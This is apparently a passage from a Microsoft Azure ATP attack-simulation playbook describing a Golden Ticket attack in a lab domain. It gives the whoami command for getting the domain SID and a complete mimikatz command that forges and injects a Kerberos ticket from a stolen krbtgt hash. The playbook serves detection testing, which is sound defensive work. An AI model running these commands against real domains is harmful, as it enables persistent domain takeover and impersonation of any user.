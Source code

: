 Azure ATP successfully detected the suspicious pre-authentication encryption method used for this user.

### Golden Ticket - Existing User

After stealing the “Golden Ticket”, (“krbtgt” account explained [here via Malicious Replication](#malicious-replication), an attacker is able to sign tickets *as if they're the domain controller*. **Mimikatz**, the Domain SID, and the stolen "krbtgt" account are all required to accomplish this attack. Not only can we generate tickets for a user, we can generate tickets for users who don't even exist.

1. As JeffL, run the below command on **VictimPC** to acquire the domain SID:

   ``` cmd
   whoami /user
   ```

   ![SID for golden ticket user](media/playbook-dominance-golden_whoamisid.png)

2. Identify and copy the Domain SID highlighted in the above screenshot.

3. Using **mimikatz**, take the copied Domain SID, along with the stolen “krbtgt” user's NTLM hash to generate the TGT. Insert the following text into a cmd.exe as JeffL:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

   ![Generate the Golden Ticket](media/playbook-dominance-golden_generate.png)
